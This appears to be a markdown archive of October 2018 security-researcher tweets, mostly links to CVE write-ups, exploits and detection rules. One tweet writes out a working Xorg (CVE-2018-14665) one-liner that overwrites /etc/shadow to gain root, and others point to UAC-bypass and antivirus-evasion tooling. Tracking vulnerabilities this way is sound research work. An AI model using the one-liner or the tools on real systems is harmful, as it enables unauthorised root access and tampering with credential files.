

# kmkz_security
**https://twitter.com/kmkz_security/status/1057614089101475842 _at 2018-10-31 12:43:43_**
<blockquote>
WinBypass: #Windows UAC Bypass/Privilege Escalation https://t.co/lm1qE5u13F
</blockquote>

* https://github.com/gushmazuko/WinBypass

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# NinjaParanoid
**https://twitter.com/NinjaParanoid/status/1056080108786798592 _at 2018-10-27 07:08:13_**
<blockquote>
Wrote a new tool which creates a spoofed certificate of any online website and signs an Executable for AV Evasion. Works for both Windows and Linux.

https://t.co/oqrKueCBlE
🤟🤟🤟
#ScriptDotSh #Pentesting #Antivirus #Malware #Spoofing https://t.co/cUwIoUfmFM
</blockquote>

* https://github.com/paranoidninja/Pandoras-Box/blob/master/python/CarbonCopy.py

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>380</code></td>
<td>Favorites: <code>715</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at 2018-10-25 21:14:26_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>425</code></td>
<td>Favorites: <code>548</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at 2018-10-25 20:23:03_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at 2018-10-25 17:53:49_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>940</code></td>
<td>Favorites: <code>1364</code></td>
</tr></table>

---

# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at 2018-10-25 14:33:50_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>142</code></td>
<td>Favorites: <code>192</code></td>
</tr></table>

---

# AlexaChenowith
**https://twitter.com/AlexaChenowith/status/1053043060194590728 _at 2018-10-18 22:00:04_**
<blockquote>
Git RCE - #Exploitation details and PoC (#CVE-2018-17456) https://t.co/kKtsWr3VSE
</blockquote>

* https://gist.github.com/joernchen/38dd6400199a542bc9660ea563dcf2b6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# AttackDetection
**https://twitter.com/AttackDetection/status/1050736465645326341 _at 2018-10-12 13:14:29_**
<blockquote>
Microsoft #Windows Shell #RCE via MS Edge 
CVE-2018-8495
Affected: Win 10, Server 2016
#Suricata rule: https://t.co/SXqyUTbA8w
</blockquote>

* https://github.com/ptresearch/AttackDetection/blob/master/CVE-2018-8495/cve-2018-8495.rules

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>17</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1050164602527473666 _at 2018-10-10 23:22:07_**
<blockquote>
CVE-2018-8265 and CVE-2018-8493 will keep a lot of people busy this month! Remote TCP/IP stack info disclosure &amp; RCE on Exchange via an email. The Exchange bug, if reliable, is WAY more troublesome.
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---

# ifsecure
**https://twitter.com/ifsecure/status/1049241990846734336 _at 2018-10-08 10:15:59_**
<blockquote>
Reading some recent Chakra changes and spotted this neat CFG bypass by @4b5f5f4b due to a bug in the JIT Server https://t.co/ZfCTxAmnGW
</blockquote>

* https://github.com/Microsoft/ChakraCore/commit/4196f8097afdcc5fe01ce2966871712fb24003a3#diff-313e10e84814b5cb12117bf9fc497566

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1048009935957635072 _at 2018-10-05 00:40:14_**
<blockquote>
[PoC] [CVE-2017-11885] Microsoft Windows 2003 SP2 - 'RRAS' SMB Remote Code Execution

https://t.co/pxNjWomKx1
https://t.co/0GeZI86ZkO
</blockquote>

* https://www.exploit-db.com/exploits/44616/
* http://www.freebuf.com/vuls/185701.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Nicochaa_
**https://twitter.com/Nicochaa_/status/1047805644332564481 _at 2018-10-04 11:08:27_**
<blockquote>
"virtualenv Sandbox Escape". CVE-2018-17793. What the fuck... Soon we will have "Bash Code Execution", "cat File Disclosure" or "Firefox Server Side Request Forgery".

https://t.co/OpvKstPwyQ
</blockquote>

* https://github.com/pypa/virtualenv/issues/1207

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

